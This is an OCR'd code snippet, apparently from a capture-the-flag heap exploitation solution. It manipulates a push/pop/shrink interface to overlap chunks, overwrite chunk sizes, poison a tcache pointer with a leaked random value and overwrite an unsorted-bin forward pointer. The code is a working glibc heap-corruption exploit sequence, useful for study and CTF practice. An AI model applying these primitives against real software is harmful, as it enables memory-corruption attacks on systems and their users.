 ```python
# set size to 0x6
pop()
pop()
shrink() # Shrink to go back to 0x40 chunk

# Get unsorted size chunk of 0x611
for i in range(0x61-0x6):
    push(convert(0x6+i))

# Set size to 0
for i in range(0x61):
    pop()

# Trigger the 0x20 chunk
shrink() # Get 0x20 Chunk, let 0x611 consolidate with top
shrink() # Switch 0x20 Chunk
# Overflow, simultaneously set size to 8 for 0x50 chunk
push(convert(1))
push(convert(2))
push(convert(3))
push(convert(0x71)) # Overwrite chunk size from 0x51 to 0x71
push(convert(xor(0))) # Overwrite ptr
push(convert(randleak)) # Overwrite tcache rand
push(convert(7)) 
push(convert(0x21)) # Put size for tcache size check
shrink() # Malloc into overlapped 0x50 chunk (now 0x70 chunk)

for i in range(0x8-0x3):
    pop()

push(convert(0x21))
push(convert(5))
push(convert(6))
# Set size to 6, of chunk 0x40

# Put 0x50 chunk into 0x70 tcache bin (overlapping)
shrink() # Malloc into chunk 0x40, 
for i in range(0x3):
    push(convert(0x7+i))
# Set size to 8 again, malloc back to 0x70 chunk

push(convert(0x20651)) # Fix top chunk

# Get chunk size 0x610 + prepare for chunk 0x410
for i in range(0x81-0xa):
    push(convert(0xb+i)) # Set size to 0x81

shrink() # Trigger malloc for chunk of 0x410

# Set size to 0x61, of chunk size 0x310
for i in range(0x21):
    pop()

shrink() # Malloc into 0x310

push(convert(0xdeadc0de)) # Trigger malloc into 0x610 again
# Set size to 0x9
for i in range(0x61-0x9):
    pop()

# Rewrite 9th index onwards that overlaps 0x610 chunk
push(convert(0x611)) # Retain size
push(convert(0xdeadbeef)) # Overwrite unsorted fd
```